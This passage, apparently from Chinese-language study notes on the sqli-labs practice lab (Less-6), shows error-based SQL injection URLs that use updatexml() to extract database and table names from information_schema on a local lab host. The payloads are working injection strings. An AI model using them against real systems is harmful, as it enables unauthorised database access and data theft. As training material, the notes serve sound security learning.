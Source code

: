 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604170113859.png" alt="image-20230604170113859" style="zoom:50%;" />

### `updatexml()`注入流程-Less-6

#### 爆库

```
http://192.168.231.129:9001/Less-6/?id=1" and updatexml(1,concat(0x7e, (select substring(group_concat(schema_name),1,30) from information_schema.schemata)),3)%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604180053106.png" alt="image-20230604180053106" style="zoom:50%;" />

#### 爆表

```
http://192.168.231.129:9001/Less-6/?id=1" and updatexml(1,concat(0x7e, (select substring(group_concat(table_name),1,30) from information_schema.tables where table_schema=database())),3)%23
```
